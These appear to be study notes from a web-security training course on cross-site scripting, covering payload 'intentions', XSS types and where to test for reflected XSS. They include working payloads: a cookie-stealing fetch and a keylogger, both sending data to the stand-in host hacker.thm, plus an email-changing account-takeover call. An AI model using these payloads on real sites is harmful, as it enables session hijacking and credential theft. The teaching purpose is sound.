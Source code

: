 
# Payloads
## What is a payload?

In XSS, the payload is the JavaScript code we wish to be executed on the targets computer. There are two parts to the payload, the intention and the modification.

<details>
  <summary>Intentions</summary>
  
## Intentions
Here are some examples of XSS intentions.

### Proof Of Concept:

This is the simplest of payloads where all you want to do is demonstrate that you can achieve XSS on a website. This is often done by causing an alert box to pop up on the page with a string of text, for example:


```javascript
<script>alert('XSS');</script>
```

### Session Stealing:

Details of a user's session, such as login tokens, are often kept in cookies on the targets machine. The below JavaScript takes the target's cookie, base64 encodes the cookie to ensure successful transmission and then posts it to a website under the hacker's control to be logged. Once the hacker has these cookies, they can take over the target's session and be logged as that user.


```javascript
<script>fetch('https://hacker.thm/steal?cookie=' + btoa(document.cookie));</script>
```

### Key Logger:

The below code acts as a key logger. This means anything you type on the webpage will be forwarded to a website under the hacker's control. This could be very damaging if the website the payload was installed on accepted user logins or credit card details.

```javascript
<script>document.onkeypress = function(e) { fetch('https://hacker.thm/log?key=' + btoa(e.key) );}</script>
```

### Business Logic:

This payload is a lot more specific than the above examples. This would be about calling a particular network resource or a JavaScript function. For example, imagine a JavaScript function for changing the user's email address called user.changeEmail(). Your payload could look like this:

```javascript
<script>user.changeEmail('attacker@hacker.thm');</script>
```

Now that the email address for the account has changed, the attacker may perform a reset password attack.

</details>

# Types of XSS Attacks

```mermaid
graph TD
  XSS --> Reflected_XSS
  XSS --> Stored_XSS
  XSS --> DOM_Based_XSS
  XSS --> Blind_XSS
```

## Reflected XSS
Reflected XSS happens when user-supplied data in an HTTP request is included in the webpage source without any validation.

### Potential Impact:

The attacker could send links or embed them into an iframe on another website containing a JavaScript payload to potential victims getting them to execute code on their browser, potentially revealing session or customer information.

### How to test for Reflected XSS:

You'll need to test every possible point of entry; these include:

- Parameters in the URL Query String
- URL File Path
- Sometimes HTTP Headers (although unlikely exploitable in practice)
